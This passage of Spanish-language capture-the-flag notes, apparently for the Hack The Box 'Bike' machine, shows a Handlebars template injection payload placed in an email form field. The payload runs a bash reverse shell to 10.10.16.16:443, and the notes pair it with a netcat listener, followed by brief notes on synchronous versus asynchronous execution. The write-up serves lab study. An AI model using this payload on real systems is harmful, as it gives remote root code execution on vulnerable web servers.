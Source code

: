 
#### Hacemos la prueba para ver si nos responde que usuario somos por el whoami
Y como se ve, nos responde que somos root
![[Bike11.png]]


------

# [[Reverse shell]] 

Para que ande el payload hay que escapar las comillas internas, esto siempre se pone todo url encodeado
```
email={{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return process.mainModule.require('child_process').exec('bash -c \'bash -i >& /dev/tcp/10.10.16.16/443 0>&1\'');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
&action=Submit
```

Nos ponemos en escucha con [[nc -nlvp 443]], una vez que estamos dentro de la maquina, ya podemos catear la flag

```shell
nc -nlvp 443
```

![[Bike9.png]]

# Notas

-------
#### Diferencias entre sincrono y asincrono:
##### Sincrono:
El programa espera a que termine una tarea antes de seguir con la proxima
##### Asincrono
Ejecuta todas las tareas al mismo tiempo y no se esperan entre si
